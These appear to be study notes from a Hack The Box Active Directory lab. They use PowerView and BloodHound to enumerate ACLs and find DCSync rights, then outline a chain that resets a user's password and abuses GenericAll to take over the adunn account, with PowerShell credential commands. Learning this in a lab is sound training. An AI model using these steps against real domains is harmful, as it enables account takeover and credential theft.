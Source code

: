Looking for Access with "adunn" account
```
PS C:\htb> $adunnsid = Convert-NameToSid adunn
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq
$adunnsid} -Verbose
```

![[Pasted image 20230102205335.png]]
The output above shows that our adunn user has DS-Replication-Get-Changes and DS-Replication-Get-Changes-In-Filtered-Set rights over the domain object. This means that this user can be leveraged to perform a DCSync attack.


<h3>Enumerating ACLs with Bloodhound</h3>
1. Upload the data to Bloodhound to be displayed.
2. Set the "wley" user as the starting node
3. Select the "Node Info" tab and scroll down to "Outbound Control Rights"
		a. This option will show us objects we have control over directly, via group membership, and the number of objects that our user could lead to us controlling via ACL attack paths under Transitive Object Control.
		ㅤ
		b. If we click on the 1 next to First Degree Object Control, we see the first set of rights that we enumerated, ForceChangePassword over the damundsen user.

![[Pasted image 20230102205553.png]]

---

<h2>ACL Abuse Tactics</h2>

Recap/Context:
- Control of wley user
- We can use this user to kick off an attack chain to control adunn user
- adunn user can perform a DCSync attack

Attack Chain:
1. Use the wley user to change the password for the damundsen user
2. Authenticate as the damundsen user and leverage GenericAll rights to add a user that we control to the Help Desk Level 1 group
3. Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the adunn user

Steps:
1. Authenticate as "wley" via a PSCredential Object
```
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object
System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

2. Create a SecureString Object to Represent the Password for damundsen
```
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!'
-AsPlainText -Force
```

